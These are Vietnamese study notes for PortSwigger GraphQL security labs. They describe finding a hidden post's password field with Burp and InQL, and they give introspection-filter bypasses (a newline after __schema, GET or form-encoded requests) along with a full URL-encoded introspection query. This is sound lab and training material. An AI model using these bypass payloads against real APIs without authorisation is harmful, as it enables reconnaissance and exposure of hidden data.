 ## Lab 1
- Blog page này chứ một blog ẩn với secret pass trong đó. Để hoàn thành lab này, hãy tìm blog đó và nhập pass
- Có thể đọc qua cách sử dụng InQL trước khi làm ở [đây](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql)
- Khi truy cập vào trang web và check HTTP history của Burp ta thấy có một request của GraphQL (nếu không thấy thì có thể scan để tìm)
- Check sang response của nó, ta thấy mỗi truy vấn trong {...} sẽ có một ```id``` riếng ở dòng cuối, nhưng lại thiếu mất ```"id":3```, có thể nó đã bị ẩn và việc của chúng ta là tìm ra nó ![image](https://github.com/Myozz/Web_Applications/assets/94811005/2b3dd1ff-c6d9-4016-97b6-8c05ab999d2f)
- Dùng InQL để scan, ta nhận ra truy vấn còn có một trường là ```postPassword``` ![image](https://github.com/Myozz/Web_Applications/assets/94811005/4a838c56-9073-48c0-b859-36ca25b35264) khả năng rất cao là nó dùng để lấy pass
- Chuyển request sang Repeater, và sửa ```id``` thành 3, thêm một trường ```postPassword``` vào truy vấn. Và thế là ta lấy được postPassword ![image](https://github.com/Myozz/Web_Applications/assets/94811005/056f8f87-5940-4ca8-a5c0-d5eea2170d62)
## Lab 2
- Hàm quản lý user cho lab này được hỗ trợ bởi GraphQL endpoint. Lab gồm một access control vuln, bạn có thể khiến API làm lộ thong tin người dùng
- Để giải lab này, đăng nhập với quyền admin và xoá username ```carlos```

# Bypass GraphQL introspection defences
- Nếu bạn không thể truy vấn introspection để chạy API đang test, hãy thử thêm một một kí tự đặc biệt vào sau ```__schema``` keyword
- Khi dev tắt introspection, họ có thể sử dụng một regex (biểu thức chính quy) để xuất ```___schema``` trong truy vấn. Bạn nên thử những kí tự như dấu cách, xuống dòng hay phẩy, vì chúng thường bị GraphQL bỏ quả (nhưng regex thì không)
- Như vậy, nếu dev chỉ xuất ```__schema{```, thì truy vấn introspection bên dưới đây

          #Introspection query with newline
      
          {
              "query": "query{__schema
              {queryType{name}}}"
          }
- Nếu nók hông hoạt động, thử thăm dò một phương thức request khác, vì introspection chỉ có thể bị tắt thông qua POST. Hãy thử dùng GET request, hãy là POST request với một content-type ```x-www-form-urlencoded```
- Ví dụ dưới đấy hiện thị một thăm dò introspection được gửi qua GET, với URL được encode

          # Introspection probe as GET request
      
          GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
- Một cái truy vấn đầy đủ hơn

      /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A